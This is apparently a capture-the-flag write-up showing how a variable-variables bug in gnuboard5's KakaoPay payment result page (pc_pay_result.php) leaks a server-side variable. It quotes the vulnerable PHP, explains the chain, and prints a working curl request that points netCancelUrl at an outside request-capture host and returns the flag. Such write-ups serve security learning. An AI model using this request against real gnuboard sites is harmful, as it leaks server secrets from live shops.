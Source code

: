 ```php
            if ($httpUtil->processHTTP($netCancel, $authMap)) {
                $netcancelResultString = $httpUtil->body;
            } else {
                echo "Http Connect Error\n";
                echo $httpUtil->errormsg;

                throw new Exception("Http Connect Error");
            }

            echo "## 망취소 API 결과 ##";

            $netcancelResultString = str_replace("<", "&lt;", $$netcancelResultString);
            $netcancelResultString = str_replace(">", "&gt;", $$netcancelResultString);

            echo "<pre>", $netcancelResultString . "</pre>";
// https://github.com/gnuboard/gnuboard5/blob/master/shop/kakaopay/pc_pay_result.php#L175L189
```
The code above is executed when payment fails. Send a request to $netCancle using the $httpUtil->processHTTP() function, and store the return value in the $netcancelResultString variable. After that, I could see that variable variables were used twice in total by using the str_replace() function.

```
0. HTTP Request
$netcancelResultString = authToken

1. First str_replace()
$$netcancelResultString := $authToken = flag
$netcancelResultString = flag

2. Second str_replace()
$$netcancelResultString := $flag
$netcancelResultString = hsctf{~~~~}
```
If the string called authToken is included in the value of $netcancelResultString after http request as above When the str_replace() function is called for the first time, the string called flag will be saved as the value of the $netcancelResultString variable by variable variables. ($authToken is flag)

The second time the str_replace() function is called, the value of the $$netcancelResultString variable is the same as $flag, so the flag saved in common.php will be saved in the $netcancelResultString variable.

```php
        $authUrl = $_REQUEST['authUrl'];    // 승인요청 API url(수신 받은 값으로 설정, 임의 세팅 금지)
        // https://github.com/gnuboard/gnuboard5/blob/master/shop/kakaopay/pc_pay_result.php#L33
```
In order to generate an error, pass an incorrect URL as the value of `authUrl`.

```plaintext
 ⚡ root@pocas  ~  curl http://1.230.253.91:5000/shop/kakaopay/pc_pay_result.php\?authUrl\=http://\&netCancelUrl\=https://6668197e65f7e3f7f5b45ff55a909ddd.m.pipedream.net/\&authToken\=flag\&resultCode\=0000
Http Connect Error
Connection failed (0) Failed to parse address ""Http Connect Error (오류코드:0)## 망취소 API 결과 ##<pre>hsctf{799c12711fd9d697a00ae3e6329a7979cc648d7cdae0fbb3d62f23a1f7c7f544}</pre><br><br>결제 에러가 일어났습니다. 에러 이유는 위와 같습니
다.
```
Finally I got the flags by sending a request like above. 
